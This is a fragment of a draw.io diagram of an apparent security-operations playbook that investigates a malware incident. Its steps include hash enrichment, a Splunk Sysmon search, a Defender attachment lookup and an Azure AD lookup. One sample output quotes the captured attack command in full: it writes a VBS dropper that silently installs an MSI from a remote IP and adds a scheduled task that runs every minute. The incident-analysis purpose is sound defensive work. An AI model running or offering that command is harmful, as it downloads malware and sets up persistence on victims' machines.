        <mxCell id="NKeEgVbL9whLPdXC6YmX-81" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;[&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;cmd /c set/p=Set v=CreateObject(^\&quot;Wscript.Shell^\&quot;):v.Run ^\&quot;msiexec /q /i http://20.66.84.207/d3commander.msi^\&quot;,false,true:v.Run ^\&quot;c:\\windows\\commander.exe^\&quot;,false,true &amp;amp;lt;nul &amp;amp;gt;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks /create /sc MINUTE /tn \&quot;Windows System\&quot; /tr \&quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs\&quot; /mo 1 /F&quot;&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="420" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-82" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;c:\\windows\\commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs &amp;amp;amp;schtasks &quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;C:\\Windows\\System32\\spool\\drivers\\color\\tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;Wscript.Shell&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;d3commander.msi&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;commander.exe&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;tmp.vbs&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="650" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-83" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;p&gt;Endpoint ID :&amp;nbsp;&lt;/p&gt;&amp;nbsp;[&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;,&quot;cec1b3eb10ca45a0a33690ec7b9fb805&quot;]&lt;br&gt;&lt;br&gt;File Path :&amp;nbsp;&lt;br&gt;&lt;br&gt;c:\windows\commander.exe" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="900" y="100" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-84" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-77" target="NKeEgVbL9whLPdXC6YmX-83">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="950" y="260" as="sourcePoint" />
            <mxPoint x="1040" y="190" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-85" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Algorithm&quot;: &quot;SHA256&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Hash&quot;: &quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Path&quot;: &quot;C:\\windows\\commander.exe&quot;&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="900" y="140" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-86" value="Investigation-Enrichment Commander&lt;br&gt;Command - RSA_InvestigationTableUpdate" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1035" y="370" width="240" height="70" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-96" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-90" target="NKeEgVbL9whLPdXC6YmX-95">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-90" value="Correlation&lt;br&gt;Stage" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="1160" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-92" value="" style="endArrow=classic;html=1;rounded=0;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" target="NKeEgVbL9whLPdXC6YmX-90">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1010" y="300" as="sourcePoint" />
            <mxPoint x="1060" y="250" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-93" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;Data :&amp;nbsp;&lt;/div&gt;[{&quot;Algorithm&quot;:&quot;SHA256&quot;,&quot;Hash&quot;:&quot;BD85402436CE4EC7AE312C8863F60A04CA3893F94FDFD3C468EB7F8C05FDAC81&quot;,&quot;Path&quot;:&quot;C:\\windows\\commander.exe&quot;}]&lt;br&gt;&lt;br&gt;Title :&amp;nbsp;Commander.exe Enrichment&lt;br&gt;&lt;br&gt;Description :&amp;nbsp;Get the hash value of the executor command.exe&lt;br&gt;&lt;br&gt;Highlight Values :&amp;nbsp;[&quot;AC0CE449E9FCCCC2F1747833C37FF0D1CD22875DD925A247A15F04EE0B318A58&quot;]&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1055" y="490" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-94" value="" style="endArrow=none;html=1;rounded=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryX=0.5;entryY=1;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-93" target="NKeEgVbL9whLPdXC6YmX-86">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1170" y="460" as="sourcePoint" />
            <mxPoint x="1160" y="400" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-101" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-95" target="NKeEgVbL9whLPdXC6YmX-100">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-95" value="Splunk Search&lt;br&gt;Command - RSA_SplunkSearch" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1360" y="270" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-97" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query :&amp;nbsp;sourcetype=&quot;WinEventLog:Microsoft-Windows-Sysmon/Operational&quot; EventCode=1 Image=&quot;C:\\Program Files\\WinRAR\\WinRAR.exe&quot; {{PlaybookData | jsonpath(&#39;$.DataSource.incident.Events[0].EventData.device.hostname&#39;)}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1360" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-98" value="" style="endArrow=none;html=1;rounded=0;entryX=0.471;entryY=1.021;entryDx=0;entryDy=0;exitX=0.5;exitY=0;exitDx=0;exitDy=0;entryPerimeter=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-95" target="NKeEgVbL9whLPdXC6YmX-97">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1430" y="270" as="sourcePoint" />
            <mxPoint x="1480" y="220" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-99" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Path&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;File Name&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; ]&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1360" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-104" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-100" target="NKeEgVbL9whLPdXC6YmX-103">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-100" value="Get File&lt;br&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1650" y="270" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-102" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;book33.rar&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1625" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-108" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-103" target="NKeEgVbL9whLPdXC6YmX-107">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-112" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-103" target="NKeEgVbL9whLPdXC6YmX-111">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-103" value="Get Emails Info&lt;br&gt;Command - RSA_DefenderEnrichment" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="1865" y="270" width="175" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-105" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query Items :&amp;nbsp;[&quot;book33.rar&quot;]&lt;br&gt;Query Type : Attachment&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1865" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-106" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;{&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Stats&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ExecutionTime&quot;: 2.562,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;resource_usage&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cache&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;disk&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;hits&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;misses&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;cpu&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;user&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;kernel&quot;: &quot;00:00:00&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;total cpu&quot;: &quot;00:00:00&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;memory&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;peak_per_node&quot;: 524384&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;dataset_statistics&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_row_count&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;table_size&quot;: 0&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; ]&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Schema&quot;: [&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;Timestamp&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;DateTime&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;NetworkMessageId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderFromAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderDisplayName&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SenderObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientEmailAddress&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;RecipientObjectId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;FileName&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;FileType&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;SHA256&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;FileSize&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;Int64&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatTypes&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ThreatNames&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;DetectionMethods&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Name&quot;: &quot;ReportId&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;Type&quot;: &quot;String&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; ],&lt;/p&gt;&lt;p&gt;&amp;nbsp; &quot;Results&quot;: []&lt;/p&gt;&lt;p&gt;}&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="1865" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-118" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-107" target="NKeEgVbL9whLPdXC6YmX-117">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-107" value="Get Sender Email&lt;br&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2150" y="320" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-120" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-111" target="NKeEgVbL9whLPdXC6YmX-119">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-111" value="Get Recipients Email&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Data Formatter" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2150" y="470" width="190" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-113" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;{{PlaybookData | jsonpath(&#39;$.[&quot;Get Emails Info&quot;].returnData.Results[*].SenderFromAddress&#39;)|to_list|unique}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2145" y="110" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-114" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2145" y="150" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-115" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;{{PlaybookData | jsonpath(&#39;$.[&quot;Get Emails Info&quot;].returnData.Results[*].RecipientEmailAddress&#39;)|to_list|unique}}&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2150" y="590" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-116" value="&lt;h1&gt;Output&lt;/h1&gt;&lt;p&gt;&lt;br&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2150" y="630" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-126" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-117" target="NKeEgVbL9whLPdXC6YmX-125">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-128" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-117" target="NKeEgVbL9whLPdXC6YmX-127">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-117" value="Get Emails from Senders" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2455" y="320" width="195" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-135" value="" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-119" target="NKeEgVbL9whLPdXC6YmX-134">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-137" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-119" target="NKeEgVbL9whLPdXC6YmX-136">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-119" value="Get User Information from Azure AD" style="whiteSpace=wrap;html=1;rounded=1;" vertex="1" parent="1">
          <mxGeometry x="2455" y="470" width="205" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-121" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;Query Item : [&quot;&quot;]&lt;br&gt;Query Type :&amp;nbsp;Sender Email&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;br&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="2452.5" y="110" width="200" height="100" as="geometry" />
